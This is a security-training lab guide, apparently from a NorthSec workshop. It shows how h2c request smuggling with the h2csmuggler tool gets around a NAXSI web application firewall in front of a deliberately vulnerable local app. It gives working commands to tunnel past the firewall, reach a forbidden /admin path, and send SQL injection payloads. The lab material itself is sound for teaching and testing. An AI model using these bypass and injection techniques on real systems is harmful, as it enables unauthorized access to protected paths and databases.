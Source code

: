 # Switching Protocol Lab

## Launching the instance

You need to launch the application using the following commands:

```
$ cd 04-http2-cleartext
$ docker-compose up
```


Open [https://localhost:8443](https://localhost:8443) in a browser to confirm that everything is running.


[Live instance (only for NorthSec)](https://nsec2022.xss.lol:8443/){ .md-button .md-button--primary target=_blank}


## Context

We have an application that will look and behave just like the one from the lab3. The application is also vulnerable to SQL injection.

However, this time the WAF is even more aggressive. NAXSI is the open-source firewall used. No training was made (usually done to reduce false positives). All parameters are prohibited from special characters!

Another important difference is that the backend application was reimplemented in Go and HTTP2 support was enabled.

```go
import(
	"golang.org/x/net/http2"
	"golang.org/x/net/http2/h2c"
[...]
```

![lab 4 diagram](images/lab4_diagram.png)

## Bypassing WAF

Visit `https://localhost:8443/movie?id=1`. If you attempt to tamper with the parameter `id`, you will see that it is filtered by a Web Application Firewall. In this case, NAXSI is configured in front of the web application. Exploiting some vulnerabilities can be much harder *(see impossible)* when a strong firewall is in place. By default, NAXSI is configured to block all quotes `'` characters. However, with the HTTP 2 Cleartext passthrough we just learned, it is possible to send requests that would not be seen by the firewall.

### Validation

First, we need to validate that HTTP2 cleartext is supported by the backend. If the backend application does not support it, this technique will not work.

```
python h2csmuggler.py -x https://127.0.0.1:8443 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

!!! info "h2cSmuggler"

    h2cSmuggler is a tool developed by Jake Miller from BishopFox.

    For more info : [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)

### Accessing Forbidden Path

```
> python .\h2csmuggler.py -x https://127.0.0.1:8443/ "https://127.0.0.1:8443/admin"
```

### SQLi Exploitation

When testing for SQL injection, a tester will be blocked right away by the Web Application Firewall in place.

`http://127.0.0.1/movie?id=1'` (see single quote at the end)


![NAXSI](images/naxsi.png)


We can use the HTTP2 technique to establish an HTTP tunnel with the application directly that will not be interpreted by most proxies.

```
> python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /?genre=action' or ''='
[...]
```

Can you extract the version of MySQL used by the backend application?
